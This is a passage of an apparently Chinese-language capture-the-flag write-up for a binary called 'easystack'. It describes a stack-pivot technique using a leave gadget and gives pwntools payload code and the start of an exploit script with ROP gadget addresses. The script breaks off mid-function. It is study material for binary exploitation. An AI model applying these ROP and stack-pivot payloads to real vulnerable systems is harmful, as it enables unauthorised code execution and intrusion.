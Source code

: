 ### 栈迁移

然后使用栈迁移的手段, 先构造个read读取后段rop到bss段, 然后迁移到bss段, 

找到一段leave的gadget,  先控制rdi指向一个可写地址即可, 

```
leave: 0x0000000000404001: 
	leave; mov qword ptr [rdi + rdx - 0x2f], rax; mov qword ptr [rdi + rdx - 0x27], rax; mov rax, rdi; ret; 

```

然后可以栈迁移, 

```python
	payload = b'./flag\x00'.ljust(0x118, b'a') + flat(
		popr12, 0x200, popret, 0, 0, 
		movrdxr12, 

		poprax, 0, 
		poprsi, stack, 0, 0, 
		poprdi, 0, 0, 
		sysret, 

		poprdi, bss, stack - 0x8, 
		leave, 
		)
	# gdb.attach(cn, cmd)
	cn.sendline(payload)
	# pause()
	cn.sendline(rop)
```

## exp:

```python
from pwn import * 

context.log_level='debug'
context.arch='amd64'

cn = process("./easystack")

cmd = '''
b * 0x000000000040132F
'''

poprax = 0x0000000000401001
poprdi = 0x000000000040117b
poprsi = 0x0000000000401179
popr13 = 0x0000000000401176
sysret = 0x000000000040785d
popret = 0x000000000040117c
popr12 = 0x000000000040673e

movrdxr13 = 0x0000000000402700
movrdxr12 = 0x0000000000402792

leave  = 0x0000000000404001

def sys(rax, rdi, rsi, rdx):
	return flat(
		poprax, popret, 
		popr13, rdx, 0, 0, 0,
		movrdxr13, 
```